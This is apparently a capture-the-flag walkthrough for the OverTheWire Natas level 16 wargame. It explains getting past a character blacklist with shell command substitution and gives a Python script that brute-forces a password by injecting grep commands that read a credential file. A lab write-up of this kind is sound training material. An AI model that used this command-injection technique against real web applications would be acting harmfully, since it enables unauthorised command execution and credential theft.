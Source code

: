 ```yaml
---
title: Over The Wire Natas - Level 16 Solution
tags: [WebExploitation, OverTheWire, Walkthrough, Natas, Injection]
---
```


In this post we will tackle Level 16 of the OverTheWire Natas Games.

This is a modified version of older level with more checks in place. The approach could be similar to that of the last level.

<!--more-->

# What do we know

What all things does the hint or the View Source tells us:

`For security reasons, we now filter even more on certain characters`

okay so what are the filtered ones.

```
if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
```

so from here we can see that ;|&`\'" are all not allowed.

the other thing to note here is the `\"$key\"` in the grep command. This means that the $key value is treated in together so that our previous command - `.* /etc/natas_webpass/natas11`

would fail here since all of this becomes a single string. And this entire thing is now being searched in dictionary.txt

# How to Solve this 

Since `$()` are not in the blocked list, we should be able to perform command substitution i.e execute the command and put its output. 

so in bash if we do.
`$(ls)` -> this will execute ls and put its output in here.

with this information, we should be now able to search for the string that we want in the `/etc/natas_webpass/natas17` file. example `$(grep a /etc/natas_webpass/natas17)` so if the a is there in the password it will output it, if its not there it will not output anything. 

So how do we tie this logic here.

lets search for `africa` or any other word that is in the dictionary.txt file, we get for this query - `http://natas16.natas.labs.overthewire.org/?needle=africa&submit=Search` 
African and Africans.

Now lets try our  query with `$(grep a /etc/natas_webpass/natas17)africa` This returns us same result as above, signaling that the character 'a' is not present in the password. 

If this would have been present then the query would have been the entire password plus Africa which it would never be present in the dictionary.txt file and it will return empty.

example since we know that `X` is in the password latter on doing this query `$(grep X /etc/natas_webpass/natas17)africa` returns in an empty output. 

Well how do we know this, its basically trial and error.

To better explain this lets look at the code below.

```
csp@cybersecpandit:~/GIT/tmp$ cat test_file
12321341aaabcde
csp@cybersecpandit:~/GIT/tmp$ grep x test_file   -> This returned Empty
csp@cybersecpandit:~/GIT/tmp$ grep b test_file   -> Match is there the entire line is returned.
12321341aaabcde

```

so if the password file contians b it would have returned the line and the final query would have been 12321341aaabcdeAfrica which is not in the dictionary.txt

With this knowledge lets start writing a script.

# Main Code Snippet

How do we brute force the entire password - simple we first try with a single character lets say y and if a match is found, then we try with each of the char in the set and try to append it in left as well as right side. 

example:
y -> Found
ay -> Not Found 
ya -> Not Found 
by -> Not Found
yb -> Found.
ayb -> Not found.

and so on and so forth. Why do we need to try both sides, since the first character that we search for could be anywhere in the password.

```python
while (len(brute_pwd) != 32):
    for each_char in characters:
        left_side = each_char + brute_pwd
        right_side = brute_pwd + each_char
        payload_left = "$(grep " + left_side + " /etc/natas_webpass/natas17)Africa"
        payload_right = "$(grep " + right_side + " /etc/natas_webpass/natas17)Africa"

        complete_url_left = url + "/?needle=" + payload_left + "&submit=Search"
        complete_url_right = url + "/?needle=" + payload_right + "&submit=Search"
        
        # Try Left First
        response = session.get(complete_url_left,
            auth=(present_user, present_level_15_pwd)
        )
        response_content = response.text
        if ('Africa' not in response_content):
            brute_pwd = left_side
            # found it - lets break and continue searching.
            break
        else:
            # Try the right side now
            response = session.get(complete_url_right,
                                    auth=(present_user, present_level_15_pwd)
                                    )
            response_content = response.text
            if ('Africa' not in response_content):
                brute_pwd = right_side
                break

```

# Alternate approach 

There could be other ways to get this done for example using other commands instead of grep, that is left as an excersise to the reader.

# Continue Learning 

If you are able to understand Nepali Language, then perhaps you could also enjoy the YouTube Playlist that I have made for this topic going in Depth in each of the Levels.
